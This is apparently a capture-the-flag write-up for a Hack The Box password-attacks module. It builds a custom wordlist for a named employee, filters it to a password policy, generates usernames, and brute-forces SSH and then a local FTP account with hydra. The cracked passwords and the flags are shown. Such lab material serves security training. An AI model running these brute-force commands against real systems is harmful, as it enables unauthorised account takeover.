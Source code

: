 # Skills Assessment - Service Login

We are given the IP address of an online academy but have no further information about their website. As the first step of conducting a Penetration Testing engagement, we have to determine whether any weak credentials are used across the website and other login services.

Look beyond just default/common passwords. Use the skills learned in this module to gather information about employees we identified to create custom wordlists to attack their accounts.

Attack the web application and submit two flags using the skills we covered in the module sections and submit them to complete this module.

**Questions**

As you now have the name of an employee from the previous skills assessment question, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.

A name of an employee can be found inside the admin panel of the previous skills assessment exercise. To reduce the length of the wordlist, don't input too much information about the victim. Start with only their first name, and if you don't get a hit, then start adding information gradually to build bigger wordlists.

```bash
#Welcome back Mr. Harry Potter! 
cupp -i
sed -ri '/^.{,7}$/d' harry.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt # remove no special chars
sed -ri '/[0-9]+/!d' harry.txt            # remove no numbers
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy 
./username-anarchy Harry Potter > ../username.txt
hydra -L username.txt -P harry.txt -u -f ssh://94.237.55.163:59407 -t 4
#[59407][ssh] host: 94.237.55.163   login: harry.potter   password: H4rry!!!
ssh harry.potter@94.237.55.163 -p 59407
HTB{4lw4y5_u53_r4nd0m_p455w0rd_63n3r470r}
```

Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.

```bash
ls /home
netstat -antp | grep -i list
hydra -l g.potter -P rockyou-30.txt -u -f ftp://127.0.0.1 -t 4
#[21][ftp] host: 127.0.0.1   login: g.potter   password: harry
ftp 127.0.0.1
get flag.txt
cat flag.txt
HTB{1_50l3mnly_5w34r_7h47_1_w1ll_u53_r4nd0m_p455w0rd5}
```
